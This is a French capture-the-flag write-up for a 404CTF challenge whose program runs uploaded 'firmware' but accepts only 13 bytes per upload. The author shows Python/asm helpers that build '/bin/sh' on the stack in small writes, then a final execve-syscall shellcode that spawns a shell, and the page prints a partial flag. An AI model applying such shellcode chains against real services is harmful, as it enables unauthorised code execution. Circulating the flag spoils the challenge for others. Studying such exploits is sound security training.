

## Solve

Dans ce challenge on a accès à une interface qui nous laisse le choix entre:
1. *update le firmware*
```c
void upload_update(long firmware_max_size, void* firmware) {
   ssize_t bytes_read;
   printf("Ready to receive update > ");
   bytes_read = read(0, firmware, firmware_max_size);
}
```
2. *executer le firmaware* (notre shell code)
```c
void apply_update(void* firmware) {
   ((void (*)())firmware)();
}
```

3. *Faire joujoux*
```c
void bidirectional_connection() {
   puts("SPAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACE");
   exit(-1);
}
```

Donc cool on peut envoyer un shellcode et l'éxecuter ! Sauf qu'on peut envoyer un shellcode que de 13 octets... impossible donc de le faire en un coup
  
  
ducoup ma solution est de me constituer un `/bin/sh` sur un endroidt de la stack qui n'est pas utilisé par les differents fonctions des interfaces (update/apply/bidirectional) 

```python
def pushshell(v: bytes, offset = 0):
    o = str(hex(offset))
    print("char", v, "at position: ", o)

    shellcode_asm = f"""
        mov rax, {hex(int.from_bytes(v))}
        mov [rsp-{o}], rax
        ret
	"""
    shellcode = asm(shellcode_asm, bits=64)
    print(f"shellcode length : {len(shellcode)} bytes")
    return shellcode
```
Le shellcode ci dessus fait très exactement `13 octets` et il ne fait qu'envoyer un seul character sur la stack à un offset définit.

de sorte d'avoir un shellcode des plus minimaliste à envoyer et executer ensuite
```python
def shellcode(offset):
    shellcode_asm = f"""
        lea rdi, [rsp-{str(hex(offset))}]
        xor rsi, rsi
        cdq
        mov al, 59
        syscall
	"""
    shellcode = asm(shellcode_asm, bits=64)
    print(f"shellcode length : {len(shellcode)} bytes")
    return shellcode
```
ici je fais juste récuperer l'address à laquel j'ai push mon `/bin/sh` sur la stack dans rdi, set les registres rsi et rdx à 0 et execute `execve` syscall

En somme il faut juste trouver un endroit dans la  stack pour envoyer notre `/bin/sh` charactère par charactère puis une fois ça fait on envoi le shellcode final.


## flag
[Le script](./solve.py)
404CTF{wh3n_l1fe_91ve5_you_LeMOn...}